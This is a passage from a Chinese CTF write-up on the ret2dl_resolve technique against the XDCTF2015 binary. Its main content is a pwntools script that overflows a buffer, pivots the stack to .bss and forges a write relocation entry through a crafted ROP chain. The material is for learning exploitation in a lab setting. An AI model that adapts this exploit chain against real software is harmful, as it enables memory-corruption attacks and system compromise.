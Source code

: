 ```python
```

## 4.stage3

这一次，我们同样控制 dl_resolve 函数中的 index_offset 参数，不过这次控制其指向我们伪造的 write 重定位项。

![image.png](https://i.loli.net/2020/11/17/V6mL3wZb8gJHTp4.png)

可以看出 write 的重定表项的 r_offset=0x0804a01c，r_info=0x00000607

```python
from pwn import *
elf = ELF('main')
r = process('./main')
rop = ROP('./main')

offset = 112
bss_addr = elf.bss()

r.recvuntil('Welcome to XDCTF2015~!\n')

# stack privot to bss segment
# new stack size is 0x800
stack_size = 0x800
base_stage = bss_addr + stack_size
## padding
rop.raw('a' * offset)
## read 100 byte to base_stage
rop.read(0, base_stage, 100)
## stack privot, set esp = base_stage
rop.migrate(base_stage)
r.sendline(rop.chain())

# write sh="/bin/sh"
rop = ROP('./main')
sh = "/bin/sh"

plt0 = elf.get_section_by_name('.plt').header.sh_addr
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
# making base_stage+24 ---> fake reloc
index_offset = base_stage + 24 - rel_plt
write_got = elf.got['write']
r_info = 0x607

rop.raw(plt0)
rop.raw(index_offset)
# fake ret addr of write
rop.raw('bbbb')
rop.raw(1)
rop.raw(base_stage + 80)
rop.raw(len(sh))
rop.raw(write_got)  # fake reloc
rop.raw(r_info)
rop.raw('a' * (80 - len(rop.chain())))
rop.raw(sh)
rop.raw('a' * (100 - len(rop.chain())))

r.sendline(rop.chain())
r.interactive()
```
